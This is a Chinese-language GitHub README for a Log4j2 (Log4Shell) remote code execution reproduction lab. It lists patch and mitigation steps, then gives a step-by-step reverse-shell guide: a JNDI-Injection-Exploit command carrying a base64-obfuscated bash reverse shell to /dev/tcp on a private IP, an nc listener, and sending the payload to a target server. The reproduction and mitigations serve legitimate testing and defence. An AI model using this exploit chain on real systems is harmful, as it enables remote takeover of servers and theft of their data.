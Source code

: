 # Apache Log4j 2 
![GitHub Workflow Status](https://img.shields.io/github/workflow/status/dbgee/log4j2_rce/rce%20CI)
[![GitHub issues](https://img.shields.io/github/issues/dbgee/log4j2_rce)](https://github.com/dbgee/log4j2_rce/issues)

Apache log4j2 开源日志组件远程代码执行

> 攻击者通过构造恶意请求，触发服务器log4j 2 日志组件的远程代码执行漏洞。漏洞无需特殊配置，经验证，最新版的补丁可以防护此问题

[官方最新补丁： log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## 紧急处置方案
1. 2.10 or 以上：添加环境变量  LOG4J_FORMAT_MSG_NO_LOOKUPS="true" 或 修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
2. 2.7 or 以上：log4j config file 中用%m(nolookups) 代替 %m 
3. 2.0-beta9 or 以上: 删除jar 包中的org/apache/logging/log4j/core/lookup/JndiLookup.class
4. 通过防火墙自定义规则，限制`jndi` 、`ldap`、`rmi` 等恶意payload
5. 漏洞探测大多采用dnslog 等带外方式，可以禁掉服务器主动外联权限

## 漏洞复现
[详细复现步骤参考](https://github.com/dbgee/fastjson-rce)   ，与fastjson 的复现一致，只是使用的pom 文件不同而已

* 需要注意2.14.1 不能稳定复现，建议采用2.8.x 版本

## 环境下载
[log4j2_rce-0.0.1.jar](https://github.com/dbgee/log4j2_rce/releases/tag/0.0.1) 

## 反弹shell 指引
1. 下载命令执行工具，也可以编译Exploit.java 将计算器换成Linux反弹代码，这里为了方便直接使用 [JNDI-Injection-Exploit-1.0.jar](./shell/JNDI-Injection-Exploit-1.0.jar)
2. 开启利用工具 `java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTkuNDQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A  "192.168.99.44"`
    1. 命令说明：-C  指定要执行的命令，-A 指定监听端口所在IP（一般为本机IP）
    2. base64 编码部分为Linux 反弹shell  `bash -i > /dev/tcp/192.168.99.44/8888 0>&1`
    3. 将利用工具生成的jndi links 放入postman payload 中
3. 本地开启nc 监听 `nc -Lvvp 8888`
4. 发送payload 到目标服务器，反弹shell 成功
5. 利用过程截图: ![利用结果](./shell/shell.png)、![服务器端输出](./shell/output.png)


